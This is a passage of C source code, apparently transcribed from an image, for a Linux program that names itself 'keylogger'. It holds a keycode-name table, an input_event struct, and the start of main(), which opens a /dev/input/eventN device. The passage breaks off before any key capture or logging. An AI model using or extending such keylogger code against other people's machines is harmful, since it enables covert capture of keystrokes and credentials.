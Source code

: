         {"KEY_PAGEDOWN",109, 0},
        {"KEY_INSERT",110, 0},
        {"KEY_DELETE",111, 0},
        {"KEY_MACRO",112, 0},
        {"KEY_MUTE",113, 0},
        {"KEY_VOLUMEDOWN",114, 0},
        {"KEY_VOLUMEUP",115, 0},
        {"KEY_POWER",116, 0},
        {"KEY_KPEQUAL",117, 0},
        {"KEY_KPPLUSMINUS",118, 0},
        {"KEY_PAUSE",119, 0},
        {"KEY_SCALE",120, 0},
        {"KEY_KPCOMMA",121, 0},
        {"KEY_HANGEUL",122, 0},
        {"KEY_HANJA",123, 0},
        {"KEY_YEN",124, 0},
        {"KEY_LEFTMETA",125, 0},
        {"KEY_RIGHTMETA",126, 0},
        {"KEY_COMPOSE",127, 0},
    };
    static unsigned int num_of_keys = sizeof(km) / sizeof(km[0]);

    struct input_event {
        struct timeval timestamp;
        unsigned short type;
        unsigned short code;
        unsigned int value;
    };

    void print_usage(void)
    {
        printf("keylogger N\n");
        printf("ex: keylogger 4\n");
        printf("\t if keyboard input device is /dev/input/event4\n");
    }

    int get_key_index(unsigned int keycode)
    {
        for (unsigned int i = 0 ; i < num_of_keys ; i++)
        {
            if (keycode == km[i].keycode)
            {
                return i;
            }
        }
        return 0;
    }
    
    int main(int argc, char* argv[])
    {
        if (2 != argc)
        {
            print_usage();
            return 0;
        }

        FILE *fd = NULL;

        struct input_event ievt = {0};

        char *input_device_fname = malloc(20);
        memset(input_device_fname, 0, 20);
        memcpy(input_device_fname, "/dev/input/event", 16);
        input_device_fname[16] = argv[1][0];

        printf("input device file name is %s\n", input_device_fname);
        printf("target key data %ld bytes (%ld * %d)\n", sizeof(km), sizeof(struct keymap), num_of_keys);
